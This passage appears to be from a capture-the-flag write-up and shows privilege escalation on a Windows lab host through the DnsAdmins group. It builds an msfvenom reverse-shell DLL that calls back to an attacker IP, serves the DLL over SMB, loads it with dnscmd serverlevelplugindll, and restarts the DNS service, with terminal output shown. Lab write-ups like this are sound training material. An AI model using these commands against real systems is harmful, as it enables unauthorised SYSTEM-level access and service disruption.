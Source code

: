 We see that we're part of DnsAdmins groups.

I searched that group on google and found that we can use it for privilege escalation.

The attack relies on a DLL injection in to the dns service running as SYSTEM.

First we need to create a malicious dll file using `msfvenom`.

> NOTE that this technique causes the DNS service to hang to it's a bad idea to apply this technique in a real world environment.

```terminal
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.17.90 LPORT=9999 -f dll -o shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                        [-] No arch selected, selecting arch: x64 from the payload                                                                                                    No encoder specified, outputting raw payload                                                                                                                  Payload size: 460 bytes                                                                                                                                       
Final size of dll file: 9216 bytes                                                                                                                            
Saved as: shell.dll   
```

Now we setup a SMB server with the command `sudo smbserver.py share`, and this will server the malicious dll.

Back to our shell as `ryan` we use `dnscmd.exe` to set the serverlevelplugin to our dll file.

```terminal
dnscmd.exe /config /serverlevelplugindll \\10.10.17.90\share\shell.dll
```

Now we just start and stop the service with `sc.exe stop dns` and `sc.exe start dns`.

```terminal
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.17.90\share\shell.dll                                      [34/4038]
                                       
Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryansc.exe \\resolute dns             

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns            

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN) 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3892
        FLAGS              :

```
